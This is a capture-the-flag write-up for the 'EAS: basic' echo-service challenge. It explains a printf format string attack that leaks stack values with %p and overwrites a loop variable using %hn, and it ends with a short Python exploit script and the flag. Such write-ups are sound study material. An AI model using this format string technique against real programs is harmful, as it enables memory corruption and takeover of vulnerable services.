


## `EAS: basic`
### Problem Description
- Author: aynakeya
    - Echo As Service
    - echo is a pretty useful function, so I made echo as a service!
    - Changelog:
    - v0.1: add a while loop to my service.
    - v0.0: echo service prototype.

### Solution


Now there's a while loop around our `printf`, and it only exits when a particular variable has a particular value...so we need to find a way to write to an arbitrary address using `printf` shenanigans. After extensive (read: 2 minutes) of googling, I found that it's `%n`.

We first need to figure out which stack entry is `piVar4`, which holds the address we want to write to, which wasn't too bad: since the pointer is to heap memory, we just `%p %p %p` away until we see an address that's not `0x7ff...`



Looks like there are *two* pointers to heap memory, namely `%10$p` and `%11$p`. By arbitrary guessing, since the difference of their values is `0x40`, I'm going to guess that `%11$p` is `piVar4`, and `%10$p` is `__s` the buffer.

Now that we know *where* to write, we need to figure out *what* to write. Looking at the disassemble, we want the value pointed to by `piVar4` to be `0x1337` less than `iVar2`, the value at `%9$lx`. After some more googling, it looks like `%1234x` pads the printed value to 1234 chars, and `%1$n` writes however many bytes have been written to `stdout` already to the address pointed to by `%1$p`. However, writing a hundred million bytes to terminal isn't the best idea, so we change it a little: `%1$hn` only writes to the 2 least significant bytes, which is much more manageable (max 65537 bytes written to terminal, as opposed to max over 2 billion). This is enough to craft our exploit: we first get `%9$lx`, then get the first 8 chars of the output and convert to integer, then subtract `0x1337` from that, then write that many characters with `%1234x`, then write it to `piVar4` with `%11$hn`. However, if the lower two bytes of `%9$lx` is less than `0x1337`, then the upper two bytes will also change, and our exploit doesn't write to the upper two bytes, so we just need to RNG this until that doesn't happen.

## Script
```python
import re

io = start()
io.recvline()
io.recvline()
io.sendline(b"%9$lx")
output = io.recvline()
iVar2 = int(output[:8], 16)
iVar2_updated = iVar2 - 0x1337
iVar2_low2bytes = int(output[4:8], 16)
new_piVar4_val = iVar2_low2bytes - 0x1337

if hex(iVar2_updated)[2:6] == hex(iVar2)[2:6]:
    io.sendline(b"%" + str(new_piVar4_val).encode() + b"x%11$hn")
    io.recvline()
    print(re.search(r"maple\{[a-zA-Z0-9_!\-\?]+\}", io.recvline().decode())[0])

io.close()
```

### Flag: `maple{prprprpr1n7f}`